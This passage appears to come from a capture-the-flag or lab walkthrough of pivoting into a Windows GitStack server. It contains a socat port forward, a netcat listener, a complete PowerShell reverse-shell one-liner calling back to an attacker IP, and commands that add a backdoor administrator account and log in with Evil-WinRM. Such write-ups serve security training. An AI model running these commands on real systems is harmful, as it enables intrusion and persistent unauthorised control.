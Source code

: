 ```
(remote) root@prod-serv:/tmp# ./socat_fwd tcp-listen:31337 tcp:10.50.185.80:9001 &
[1] 2667
```

Let’s start a listener on Kali machine.

```
⛩\> rlwrap nc -lvnp 9001
listening on [any] 9001 ...
```

We will use powershell one-liner to gain shell access.

> [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.188.200',31337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

![Screen Shot 2021-09-14 at 06.35.19.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/5C3EE489-35ED-4B29-A0C9-5BF9A7CCFF83/2596D3EA-61BF-4412-9BF5-6A0B98D7195A_2/Screen%20Shot%202021-09-14%20at%2006.35.19.png)

Make sure to URL encode the one-liner and forward the request to server. Check the netcat listener for reverse connection.

```
⛩\> rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.50.185.80] from (UNKNOWN) [10.200.188.200] 55882

PS C:\GitStack\gitphp> whoami
nt authority\system
```

We have shell access now. We already know that 5985 (WinRM) port is open on this Windows machine for remote management. Let’s create new user account and that user to remote management users group.

```
PS C:\GitStack\gitphp> net user test-account test123 /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators test-account /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" test-account /add
The command completed successfully.
```

Now we can access the windows machine via RDP or WinRM. Let’s get a stable shell via Evil-WinRM.

```
⛩\> evil-winrm -u test-account -p 'test123' -i 10.200.188.150

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\test-account\Documents> whoami
git-serv\test-account
```

